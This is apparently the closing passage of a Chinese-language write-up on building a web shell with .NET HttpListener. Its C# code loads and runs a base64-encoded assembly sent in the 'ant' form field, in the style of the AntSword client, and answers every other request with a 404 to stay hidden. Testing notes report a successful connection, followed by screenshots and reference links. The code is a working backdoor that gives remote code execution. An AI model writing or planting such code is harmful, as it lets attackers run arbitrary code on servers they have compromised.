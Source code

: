 ```cpp
    System.IO.StreamWriter writer = new System.IO.StreamWriter(response.OutputStream);
    HttpResponse resp = new HttpResponse(writer);
    httpContext = new HttpContext(req, resp);
    if (req.Form["ant"] != null)
    {
        System.Reflection.Assembly assembly =
            System.Reflection.Assembly.Load(Convert.FromBase64String(req.Form["ant"]));
        assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(httpContext);
        httpContext.Response.End();
        //Console.WriteLine("filter end");
    }
    else
    {
        response.StatusCode = 404;
        response.ContentLength64 = not_found.Length;
        stm = response.OutputStream;
        stm.Write(not_found, 0, not_found.Length);
    }
}
```

## 测试

修改Prefix为自定义路径，启动exe

测试连接成功

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1645337774044-9762e7a9-73e2-40af-a442-01a96d89acc7.png)

查看debug日志，能够正确获取到path参数

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1644760474387-4b8e149e-591c-44ec-a573-b81942feeaf1.png)

成功进入路径，其他操作也是可以正常执行的

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1644760456257-58343f59-dd7b-408e-a111-c0de8ae1a2fd.png)

## 参考链接

https://docs.microsoft.com/zh-cn/dotnet/api/system.net.httplistenerrequest?view=netframework-3.0

https://docs.microsoft.com/zh-cn/dotnet/api/system.web.httprequest?view=netframework-4.8

https://mp.weixin.qq.com/s/zsPPkhCZ8mhiFZ8sAohw6w

[http://yzddmr6.com/posts/%E8%81%8A%E8%81%8A%E6%96%B0%E7%B1%BB%E5%9E%8BASPXCSharp/](http://yzddmr6.com/posts/聊聊新类型ASPXCSharp/)
